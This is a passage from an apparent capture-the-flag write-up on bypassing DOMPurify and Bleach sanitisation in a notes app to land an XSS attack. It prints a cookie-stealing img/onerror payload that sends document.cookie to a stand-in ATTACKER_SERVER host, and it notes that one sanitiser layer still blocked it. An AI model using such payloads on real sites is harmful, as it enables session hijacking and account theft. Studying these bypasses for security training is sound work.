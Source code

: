 ![](images/12.png)

### XSS

All that remains is to develop an XSS payload that steals the admin's cookie. What if we try a classic one? You can enter `document.cookie = "test"` in your browser console for testing purposes.

```json
{
    "content": "<img src=x onerror=fetch('https://ATTACKER_SERVER/?'+document.cookie)>",
    "status": "success"
}
```

![](images/13.png)

We get the broken image but nothing in the HTTP logs. Checking the source shows why; the script was stripped from the input.

![](images/14.png)

It's because we only bypassed 2/3 sanitisation steps:
✅ DOMPurify in `create.html`
✅ Bleach in `/api/notes/store`
❌ DOMPurify in `view.html`
